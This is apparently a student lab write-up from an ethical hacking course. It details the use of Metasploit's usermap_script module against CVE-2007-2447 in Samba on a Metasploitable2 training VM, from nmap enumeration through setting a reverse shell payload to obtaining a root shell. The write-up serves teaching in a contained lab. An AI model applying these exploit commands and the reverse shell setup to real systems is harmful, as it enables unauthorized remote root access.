# Lab 13: Exploiting a Service Using Metasploit Framework

**Course:** Ethical Hacking (CYBR 556)  
**Tools:** Nmap, Netdiscover, Metasploit Framework, Kali Linux  
**Target:** Metasploitable2 (`192.168.23.3`)  
**CVE:** CVE-2007-2447 (Samba `username map script` RCE)

---

## Objectives

- Discover the target on the local network
- Enumerate running services with Nmap
- Identify a vulnerable Samba version
- Exploit it using Metasploit to gain a root shell

---

## Step 1: Both Machines Running

Both Kali Linux (attacker) and Metasploitable2 (target) confirmed active in VirtualBox before starting.



---

## Step 2: Target Discovery + Service Enumeration

```bash
sudo netdiscover -r 192.168.23.0/24
nmap -sV 192.168.23.3
```

Netdiscover identified the target at `192.168.23.3`. The Nmap `-sV` scan revealed Samba smbd running on ports 139 and 445.



---

## Step 3: Full Port List

Complete open port list on Metasploitable2 — large attack surface including FTP (vsftpd 2.3.4), SSH, Telnet, HTTP (Apache 2.2.8), Samba, MySQL, PostgreSQL, VNC, IRC, AJP13, and Tomcat.



---

## Step 4: Launch Metasploit Framework

```bash
msfconsole
```

Metasploit loaded all exploit, auxiliary, payload, and post modules. Prompt changed to `msf >`.



---

## Step 5: Search for Samba Exploit Module

```bash
search samba
```

Module `exploit/multi/samba/usermap_script` identified at index 15 — disclosed 2007-05-14, targeting CVE-2007-2447.



---

## Step 6: Load Module and Inspect Info

```bash
use exploit/multi/samba/usermap_script
info
```

Module loaded. Info confirmed: platform Unix, privileged Yes, rank Excellent, no authentication required.



---

## Step 7: CVE Description Confirmed

The `info` description confirmed Samba versions 3.0.20–3.0.25rc3 are vulnerable when `username map script` is enabled. Exploitation occurs before user authentication. CVE-2007-2447 and OSVDB-34700 listed as references.



---

## Step 8: Configure RHOSTS and Review Options

```bash
set RHOSTS 192.168.23.3
options
```

RHOSTS set to target. Options showed RPORT defaulting to `139`, default payload `cmd/unix/reverse_netcat`, LHOST `127.0.0.1`, LPORT `4444` — LHOST still needed updating.



---

## Step 9: List Compatible Payloads

```bash
show payloads
```

Full list of compatible Unix payloads displayed — bind shells, reverse shells, PHP, Python, Ruby variants. Selected `cmd/unix/reverse` for a clean reverse shell.



---

## Step 10: Set Payload, LHOST, and LPORT

```bash
set payload cmd/unix/reverse
set LHOST 192.168.23.2
set LPORT 4444
```

Payload changed from default netcat to `cmd/unix/reverse`. LHOST updated to Kali's IP `192.168.23.2`. All options verified before running.



---

## Step 11: Execute Exploit — Root Shell Obtained

```bash
run
whoami
```

Metasploit started a reverse TCP handler on `192.168.23.2:4444`, delivered the exploit to Samba, and a command shell session opened. `whoami` confirmed:

```
root
```



---

## CVE Reference

| Field | Detail |
|-------|--------|
| CVE | CVE-2007-2447 |
| Type | Remote Code Execution (RCE) |
| Authentication Required | No |
| CVSS Score | 10.0 (Critical) |
| Affected Versions | Samba 3.0.20 – 3.0.25rc3 |

---

## References

- Rapid7. *Metasploit Framework.* https://docs.metasploit.com/
- MITRE. *CVE-2007-2447.* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-2447
- NVD. *NVD – CVE-2007-2447.* https://nvd.nist.gov/vuln/detail/CVE-2007-2447
- Rapid7. *Metasploitable 2 Exploitability Guide.* https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
